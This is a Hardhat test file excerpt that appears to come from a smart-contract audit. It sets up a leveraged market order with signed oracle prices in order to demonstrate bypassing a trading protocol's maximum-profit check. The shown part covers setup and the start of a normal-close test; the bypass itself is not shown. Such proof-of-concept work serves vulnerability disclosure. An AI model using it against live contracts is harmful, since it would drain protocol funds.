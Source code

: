 ```
    const ChainlinkContract = await ethers.getContractFactory("MockChainlinkFeed");
    chainlink = await ChainlinkContract.deploy();

    TradingLibrary = await deployments.get("TradingLibrary");
    tradinglibrary = await ethers.getContractAt("TradingLibrary", TradingLibrary.address);
    await trading.connect(owner).setLimitOrderPriceRange(1e10);
  });


  describe("Bypass the maximum PnL check to take extra profit", function () {
    let orderId;
    let closePriceData;
    let closeSig;
    let initPrice = parseEther("1000");
    let closePrice = parseEther("2000");
    beforeEach(async function () {
      let maxWin = await trading.maxWinPercent();
      expect(maxWin.eq(5e10)).to.equal(true);

      let TradeInfo = [parseEther("1000"), MockDAI.address, StableVault.address, parseEther("10"), 1, true, parseEther("0"), parseEther("0"), ethers.constants.HashZero];
      let PriceData = [node.address, 1, initPrice, 0, 2000000000, false];
      let message = ethers.utils.keccak256(
        ethers.utils.defaultAbiCoder.encode(
          ['address', 'uint256', 'uint256', 'uint256', 'uint256', 'bool'],
          [node.address, 1, initPrice, 0, 2000000000, false]
        )
      );
      let sig = await node.signMessage(
        Buffer.from(message.substring(2), 'hex')
      );
      
      let PermitData = [permitSig.deadline, ethers.constants.MaxUint256, permitSig.v, permitSig.r, permitSig.s, true];
      orderId = await position.getCount();
      await trading.connect(owner).initiateMarketOrder(TradeInfo, PriceData, sig, PermitData, owner.address);
      expect(await position.assetOpenPositionsLength(1)).to.equal(1);
      let trade = await position.trades(orderId);
      let marginAfterFee = trade.margin;
      expect(marginAfterFee.eq(parseEther('990'))).to.equal(true);

      // Some time later
      await network.provider.send("evm_setNextBlockTimestamp", [2000001000]);
      await network.provider.send("evm_mine");
      
      // Now the price is doubled, profit = margin * leverage = $990 * 10 = $9900
      closePriceData = [node.address, 1, closePrice, 0, 2000001000, false];
      let closeMessage = ethers.utils.keccak256(
        ethers.utils.defaultAbiCoder.encode(
          ['address', 'uint256', 'uint256', 'uint256', 'uint256', 'bool'],
          [node.address, 1, closePrice, 0, 2000001000, false]
        )
      );
      closeSig = await node.signMessage(
        Buffer.from(closeMessage.substring(2), 'hex')
      );

    });

    it.only("All profit is $9900, close the order normally, only get $3960 profit", async function () {
      let balanceBefore = await stabletoken.balanceOf(owner.address);
```